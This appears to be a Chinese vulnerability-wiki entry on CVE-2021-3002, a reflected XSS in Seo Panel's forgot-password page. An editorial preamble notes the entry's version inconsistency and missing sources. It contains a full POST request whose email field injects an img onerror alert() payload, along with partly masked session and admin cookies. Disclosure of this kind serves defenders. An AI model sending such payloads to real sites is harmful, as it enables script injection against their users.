


# Seo-Panel-4.8.0-反射型XSS漏洞-CVE-2021-3002

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Seo Panel
- 文献类型：反射XSS简要PoC
- 版本、权限及部署边界：标题4.8.0与正文<4.8.0有边界疑义；密码重置POST，受害者提交/访问返回页
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 需核对4.8.0是否受影响，现题名与version排除4.8.0不一致
2. 安装仅仓库最新无固定tag，验证码12345和Cookie是否必要未说明；敏感旧Cookie应占位
3. HTTP被标javascript，回显位置和浏览器执行证据只有截图，缺payload受害者触发方式与修复
4. 没有CVE公告/commit，转载来源根地址不足核实漏洞范围

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://github.com/seopanel/Seo-Panel>
- 原文参考链接（未重新核验）：<http://xxx.xxx.xxx.xxx/login.php?sec=forgot**](http://xxx.xxx.xxx.xxx/login.php?sec=forgot>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

*Seo Panel*是一个网站搜索引擎优化管理的完整控制面板。它包含了多个SEO工具来增加和跟踪你的网站性能

Seo-Panel 4.8.0以下版本存在过滤不完全的情况，造成存在 反射型XSS漏洞

## 漏洞影响

```
Seo-Panel  Version < 4.8.0
```

## 环境搭建

https://github.com/seopanel/Seo-Panel

下载后放入网站根目录根据提示安装访问即可




## 漏洞复现

漏洞出现在找回密码页面 [**http://xxx.xxx.xxx.xxx/login.php?sec=forgot**](http://xxx.xxx.xxx.xxx/login.php?sec=forgot)




成功弹窗 ,造成 反射型XSS 漏洞


## 漏洞POC


请求包如下


```javascript
POST /login.php?sec=forgot HTTP/1.1
Host: 192.168.51.133
Content-Length: 118
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Origin: http://192.168.51.133
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.51.133/login.php?sec=forgot
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=i0q********************vn3; yzmphp_adminid=33d5DywYQIUGS13SI7x4I0y7JiCacraGcDU1uoBx; yzmphp_adminname=1fc8yAdCyAogZ-PIz4c66dU1ij0mHsG7KGF_5tToVThEzbc
Connection: close

sec=requestpass&email=peiqi%40peiqi.com%22%3E%3Cimg+src%3Da+onerror%3Dalert%28%22peiqi%22%29%3Egcuak&code=12345&login=
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
